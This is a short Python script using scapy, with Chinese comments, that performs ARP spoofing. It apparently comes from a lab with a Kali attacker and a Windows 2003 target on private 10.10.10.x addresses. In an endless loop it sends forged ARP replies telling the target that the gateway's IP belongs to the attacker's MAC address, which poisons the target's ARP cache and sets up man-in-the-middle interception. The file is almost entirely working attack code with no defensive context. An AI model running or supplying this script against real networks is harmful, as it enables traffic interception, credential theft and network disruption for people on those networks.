

#coding: utf-8
from scapy.all import *

tip = "10.10.10.130"
lip = "10.10.10.134"
gip = "10.10.10.2"

interFACE = "eth0"

tmac = getmacbyip(tip)  #获得Win2k3 mac
lmac = get_if_hwaddr(interFACE) #获得kali mac
gmac = getmacbyip(gip) #获得网关mac

#构造arp欺骗包
pack = Ether(dst=tmac,src=lmac )/ARP(op=1,hwsrc=lmac,psrc=gip,hwdst=tmac,pdst=tip)

while True: #一直发送
	sendp(pack, inter=2, iface=interFACE)